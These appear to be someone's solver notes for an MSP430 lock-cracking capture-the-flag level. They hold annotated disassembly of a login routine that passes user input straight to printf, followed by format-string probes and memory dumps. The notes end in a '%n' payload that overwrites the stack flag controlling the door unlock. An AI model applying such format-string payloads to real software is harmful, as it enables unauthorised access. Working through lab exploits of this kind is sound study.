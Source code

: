 4438 <main>
4438:  3150 eaff      add	#0xffea, sp
443c:  8143 0000      clr	0x0(sp)
4440:  3012 e644      push	#0x44e6 "Login with username:password below to authenticate."
4444:  b012 c845      call	#0x45c8 <printf>
4448:  b140 1b45 0000 mov	#0x451b ">> ", 0x0(sp)
444e:  b012 c845      call	#0x45c8 <printf>
4452:  2153           incd	sp
4454:  3e40 1300      mov	#0x13, r14
4458:  3f40 0024      mov	#0x2400, r15
445c:  b012 8c45      call	#0x458c <getsn> // Read password to 0x2400 (Len 0x13 - 19)
4460:  0b41           mov	sp, r11
4462:  2b53           incd	r11
4464:  3e40 0024      mov	#0x2400, r14
4468:  0f4b           mov	r11, r15
446a:  b012 de46      call	#0x46de <strcpy> // Copy password to stack
446e:  3f40 0024      mov	#0x2400, r15
4472:  b012 b044      call	#0x44b0 <test_password_valid>
4476:  814f 0000      mov	r15, 0x0(sp)
447a:  0b12           push	r11
447c:  b012 c845      call	#0x45c8 <printf> // Printf password
4480:  2153           incd	sp
4482:  3f40 0a00      mov	#0xa '\n', r15 
4486:  b012 5045      call	#0x4550 <putchar>
448a:  8193 0000      tst	0x0(sp)
448e:  0324           jz	$+0x8 <main+0x5e>
4490:  b012 da44      call	#0x44da <unlock_door>
4494:  053c           jmp	$+0xc <main+0x68>
4496:  3012 1f45      push	#0x451f "That entry is not valid."
449a:  b012 c845      call	#0x45c8 <printf>
449e:  2153           incd	sp
44a0:  0f43           clr	r15
44a2:  3150 1600      add	#0x16, sp
44a6 <__stop_progExec__>

# First payload for understand pointer reference "1%x2%x3%x4%x5%x6%x7" 
1 2 2531 3 3278 4 7825 5 2533 6 3478 7

AA    BB  %d   CC   %d
4141 4242 2578 4343 2578
AABBCC4141

ANS:
tst  %d   %n
963e 256e 256e
-> Write 0200 to 3e96

SP When testings: 3e96

# Before printf of "TEST - %n"
3e70: 0000 0000 4c45 0100 5e45 0000 2000 2000   ....LE..^E.. . .
3e80: 4446 0000 4c45 0100 ce44 7d00 0024 903e   DF..LE...D}..$.>
3e90: 0024 0000 983e 0000 5445 5354 202d 2025   .$...>..TEST - %
3ea0: 6e00 0000 0000 0000 0000 0000 0000 0000   n...............
3eb0: 0000 0000 0000 0000 0000 0000 0000 0000 

# After
3e70: 0000 4c45 0100 5e45 0000 2000 2000 4446   ..LE..^E.. . .DF
3e80: 0000 0000 843e 0000 0000 0000 0000 0000   .....>..........
3e90: 983e 8044 983e 0000 5445 5354 202d 2025   .>.D.>..TEST - %
3ea0: 6e00 0000 0000 0000 0000 0000 0000 0000   n...............
3eb0: 0000 0000 0000 0000 0000 0000 0000 0000